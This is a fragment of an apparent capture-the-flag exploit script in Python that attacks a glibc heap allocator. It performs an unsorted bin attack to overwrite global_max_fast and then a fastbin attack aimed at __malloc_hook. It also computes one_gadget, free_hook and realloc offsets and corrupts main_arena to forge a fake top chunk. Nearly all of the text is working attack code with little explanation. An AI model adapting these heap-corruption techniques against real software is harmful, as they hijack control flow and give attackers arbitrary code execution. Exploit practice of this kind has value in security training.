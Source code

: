 ```python

global_max_fast=3790920+libc

#unsort bin attack
add(0x18,"A"*0x18)#6
add(0x18,"B"*0x18)#7
add(0x18,"C"*0x18)#8
add(0x18,"D"*0x18)#9
add(0x18,"D"*0x18)#10

add(0x18,"E"*0x18)#11
add(0x68,"F"*0x68)#12
edit(12,p64(0)*3+p64(0x21)) #fake next_size(for fastbin attack)
add(0x18,"G"*0x18)#13
add(0x18,"H"*0x18)#14
#add(0x18,"I"*0x18)#15

delete(7)
delete(5)

edit(6,"O"*0x18+"\x61") #1's size->0x81
#add(0x58,"AAAAAAAAAA")
add(0x58,p64(0)*3+p64(0x21)+p64(0)*3+p64(0x21)+p64(0)+p64(global_max_fast-0x10))
add(21,"AAAA")#13  #unsort bin attack

#fastbin attack

free_hook=3790760+libc
malloc_hook=3783440+libc
realloc=0x846C0+libc
one_gadget= 0x4526a+libc
#one_gadget=0x41414141

delete(14)
delete(13)
delete(12)
delete(11)
delete(10)
delete(9)
#delete(15)

add(0x18,"a"*0x18)#9
add(0x18,"b"*0x18)#10
add(0x18,"c"*0x18)#11

edit(9,"a"*0x18+"\x61")
#edit(10,"b"*0x18+"\x71")
delete(10)
#delete(11)
add(0x58,p64(0)*3+p64(0x21)+p64(0)*3+p64(0x71)+p64(malloc_hook-35))
add(0x68,"AAAA")
#add(0x68,b"F"*(19-4)+p64(one_gadget)+p64(realloc+0x1b))

#add(0x18,"PWN")
fake_chunk=0x39bb20+libc+8
main_aren_88=0x39bb78+libc
#fake_top_chunk=0x39d7e0+libc
free_hook=3790760+libc
fake_top_chunk=free_hook-0xb58

#fake_top_chunk=libc
add(0x68,b"\x00"*(19+8)+p64(0)*2+p64(0)+p64(0x70)*4+p64(fake_chunk))
add(0x68,p64(0)*8+p64(fake_top_chunk)+p64(0)+p64(main_aren_88)*2)
```